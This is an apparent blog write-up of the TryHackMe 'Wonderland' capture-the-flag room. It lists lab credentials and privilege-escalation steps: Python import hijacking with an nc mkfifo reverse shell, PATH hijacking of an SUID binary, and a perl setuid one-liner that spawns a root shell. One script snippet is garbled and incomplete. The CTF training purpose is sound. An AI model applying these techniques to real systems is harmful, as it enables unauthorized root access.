 ```yaml
---
layout: post
title: Walkthrough - Wonderland
published: true
category: TryHackMe Walkthrough
---
```


Tags: CTF, Alice in Wonderland, PrivESC, Linux.
Description: Fall down the rabbit hole and enter wonderland.
Difficulty: Easy
URL: [https://tryhackme.com/room/wonderland](https://tryhackme.com/room/wonderland)

* * *

## Notes

- `stegseek -sf index.jpeg `
- follow the r/a/b/b/i/t which is a hint for the directories i found with ferroxbuster

then viewing source gets us to the ssh logins for alice:HowDothTheLittleCrocodileImproveHisShiningTail

- `sudo -l`

the python script is importing 'random', however random isnt calling a path so we can create a random.py for the script to import with a nc mkfifo calling back to a listener on our attacker

Checking teaParty which has SUID set as hatter in rabbits dir with ghidra we see it is running date and not calling full path. We can take advantage of this by creating a script `date` in `tmp` and adding tmp tot he path. 

date

```
#!/bin/sh

-i
```

than `export PATH=/tmp:$PATH`

running `./teaParty` gets us hatters shell

hatter creds

hatter:WhyIsARavenLikeAWritingDesk?

running linpeas eariar we found perl has setuid capabilities. GTFO bins get us root

`perl5.26.1 -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

* * * 

## user.txt?

/root

* * * 

## root.txt?

/home/alice

* * * 

